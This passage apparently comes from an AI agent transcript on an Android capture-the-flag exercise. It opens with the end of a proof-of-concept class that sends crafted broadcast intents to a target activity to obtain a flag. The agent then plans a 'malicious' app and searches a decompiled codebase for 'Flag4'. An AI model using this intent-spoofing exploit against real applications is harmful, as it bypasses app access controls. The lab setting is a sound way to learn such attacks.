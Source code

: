         // Step 3: Send GET_FLAG_ACTION
        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);
        getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(getFlagIntent);
        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION.");

        // Step 4: Send a final intent to trigger success(this) from GET_FLAG state
        // Any intent will work here, let's re-send GET_FLAG_ACTION or an empty intent
        Intent triggerSuccessIntent = new Intent(); // An empty intent is sufficient
        triggerSuccessIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(triggerSuccessIntent);
        Log.d("MaliciousFlag4PoC", "Sent final trigger intent to get flag.");

        Toast.makeText(this, "Exploit intents sent. Check logs for flag.", Toast.LENGTH_LONG).show();
        finish(); // Close the malicious activity
    }
}


==================== TURN 5/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: **PHASE 1: Project Comprehension & Strategy Formulation**

Okay, so the task is to hunt down a vulnerability related to "Flag4" within this decompiled Android app and cook up a working PoC.  From what I can see, it's a standard Android project, no surprises there.  The structure screams Android: manifest files, resource directories, and the familiar Java and Kotlin packages in `sources/`.  Looks like the developers were using the usual suspects, Android SDK as the framework.

My strategy? Build a separate, malicious Android app to target the vulnerable component.  Gotta write the `AndroidManifest.xml` for that and a Java source file to make things happen. I'll need to pinpoint the exposed component that's the key to this "Flag4" challenge, and then figure out the right intent actions and extras to trigger the bad stuff.

Now it's time to dive deeper and get my hands dirty. I'll start by searching for "Flag4" in the code and go from there.

Function Call: id=None args={'regex_pattern': 'Flag4'} name='search_codebase'
----------
Role: tool
Function Call: None
----------
Role: model
Text: **Navigating the "Flag4" Android Application - A Preliminary Assessment**

Okay, so the `search_codebase` command just gave me some solid leads. It flagged hits on "Flag4" in `MaliciousFlag4PoC.java`, `AndroidManifest_PoC.xml`, and `Flag4Activity.java`.  Right away, I'm thinking, "Android app, check. Existing Proof of Concept (PoC) attempt, double-check." 

